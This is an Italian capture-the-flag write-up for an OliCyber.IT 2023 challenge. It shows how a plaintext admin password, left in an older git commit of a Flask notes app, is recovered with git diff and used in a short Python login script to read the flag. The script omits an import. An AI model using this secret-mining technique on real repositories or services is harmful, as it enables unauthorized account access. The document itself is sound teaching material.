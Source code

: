 # OliCyber.IT 2023 - Selezione territoriale

## [misc-1] Gabibbo Innovazione Tecnologica (99 risoluzioni)

La challenge consiste in un semplice servizio web che permette di loggarsi e vedere la lista delle note appartenenti all'utente loggato. Le funzionalità di creazione di un nuovo utente e di creazione delle note non sono disponibili in quanto non utili ai fini della challenge. Viene anche reso disponibile il codice sorgente, gestito tramite git. Guardando al codice sorgente si vede che un utente di test viene inserito direttamente nel database e che la flag è tra le sue note, ma la password presente nel codice è hashata, esplorando i commit vecchi si trova la password in chiaro.

### Soluzione

Guardando al codice si vede che un utente di test viene inserito direttamente nel database e che la flag è tra le sue note, ma si vede anche che la password è hashata:

```py
# Create an initial admin user if it doesn't exist
c.execute("SELECT * FROM users WHERE username = 'admin'")
if not c.fetchone():
        hashed_pw = '$2b$12$AQ6terssqMr7pUBQleGDaut1hzaZ2xVotg3J/wkighj3..5DPH8Ji'
        c.execute("INSERT INTO users (username, password) VALUES (?, ?)", ('admin', hashed_pw))
        conn.commit()

# create two initial notes for the admin user if don't exist
c.execute("SELECT * FROM notes WHERE user_id = 1")
if not c.fetchone():
        c.execute("INSERT INTO notes (user_id, note) VALUES (?, ?)", (1, 'My first note!'))
        c.execute("INSERT INTO notes (user_id, note) VALUES (?, ?)", (1, os.environ.get("FLAG", "My example flag!")))
        conn.commit()
```

Tramite il comando `git log` si possono vedere i vari commit presenti nella repository

```git
commit 5e2e2ff0683aa4f45ba1f6956c71ea03fa1a0768 (HEAD -> master)
Author: Gabibbo <me@gabib.bo>
Date:   Sat Mar 11 19:09:37 2023 +0000

    add css

commit 45e1e08035546a8abebf1c66235128025eb67cbd
Author: Gabibbo <me@gabib.bo>
Date:   Sat Mar 11 19:09:37 2023 +0000

    refactor using flask templates

commit 3cb11df85aab7f1316f4e46269366eb890f16ae6
Author: Gabibbo <me@gabib.bo>
Date:   Sat Mar 11 19:09:37 2023 +0000

    add some notes to the db

commit 62e4954e4abd37173cc247ebeb52e8db221a7b7b
Author: Gabibbo <me@gabib.bo>
Date:   Sat Mar 11 19:09:37 2023 +0000

    hash passwords before inserting in the db

commit 6d74ea9024383fcbf6cb5894a8f2db63181e28c7
Author: Gabibbo <me@gabib.bo>
Date:   Sat Mar 11 19:09:37 2023 +0000

    add admin for testing login

commit fe3711f0cb1efc7da5518e8a564cedec363152ab
Author: Gabibbo <me@gabib.bo>
Date:   Sat Mar 11 19:09:37 2023 +0000

    add gitignore

commit 41c3d2eafff05b9758b187c102cb9b0c948411f6
Author: Gabibbo <me@gabib.bo>
Date:   Sat Mar 11 19:09:37 2023 +0000

    prototipe for the app

commit 71eb70bf6145115b3b62a8d3491bc797ca491a06
Author: Gabibbo <me@gabib.bo>
Date:   Sat Mar 11 19:09:37 2023 +0000

    initial commit
```

Tramite `git checkout <commit_hash>` è possibile vedere lo stato della repository nel momento del commit, facendo un po' di tentativi si vede che nel commit `6d74` viene aggiunto l'utente di test al database con la password in chiaro, mentre in quello successivo, ossia `62e4` viene inserita nel database direttamente l'hash della password. Tramite `git diff 6d74 62e4 app.py` si vede la differenza tra i due commit:

```git
diff --git a/app.py b/app.py
index b50820c..bb96433 100644
--- a/app.py
+++ b/app.py
@@ -1,6 +1,7 @@
 from flask import Flask, render_template, request, redirect, url_for, session, flash
 import sqlite3
 import os
+import bcrypt

 app = Flask(__name__)
 app.secret_key = os.urandom(24)
@@ -24,7 +25,8 @@ c.execute('''CREATE TABLE IF NOT EXISTS notes
 # Create an initial admin user if it doesn't exist
 c.execute("SELECT * FROM users WHERE username = 'admin'")
 if not c.fetchone():
-       c.execute("INSERT INTO users (username, password) VALUES (?, ?)", ('admin', 'tkdF^cZFFaAD3!dTEQ7n'))
+       hashed_pw = '$2b$12$AQ6terssqMr7pUBQleGDaut1hzaZ2xVotg3J/wkighj3..5DPH8Ji'
+       c.execute("INSERT INTO users (username, password) VALUES (?, ?)", ('admin', hashed_pw))
        conn.commit()

 @app.route('/', methods=['GET', 'POST'])
@@ -50,7 +52,7 @@ def login():
                password = request.form['password']
                c.execute("SELECT * FROM users WHERE username = ?", (username,))
                user = c.fetchone()
-               if user and password == user[2]:
+               if user and bcrypt.checkpw(password.encode('utf-8'), user[2].encode('utf-8')):
                        session['username'] = user[1]
                        session['user_id'] = user[0]
                        return redirect(url_for('notes'))
```

Dall'output di sopra si evince che la password dell'admin è `tkdF^cZFFaAD3!dTEQ7n`, per ottenere la flag è sufficiente loggarsi alla applicazione con username `admin` e la password appena trovata, la flag sarà all'interno della pagine tra le note.

### Exploit

Come descritto sopra, una volta trovata la password dell'admin, per esempio tramite `git diff 6d74 62e4 app.py`, è sufficiente loggarsi alla applicazione con username=`admin` e password=`tkdF^cZFFaAD3!dTEQ7n`, la flag sarà all'interno della pagine tra le note.
Il seguente script in python effettua il login come admin e legge la flag:

```py
import requests

# URL della challenge
URL = "http://xxx.challs.olicyber.it"

ses = requests.Session()
res = ses.post(URL + "/login", data={"username": "admin", "password": "tkdF^cZFFaAD3!dTEQ7n"})
res = ses.get(URL)

flag = re.findall(r"flag{.*?}", res.text)[0]

print(flag)
```

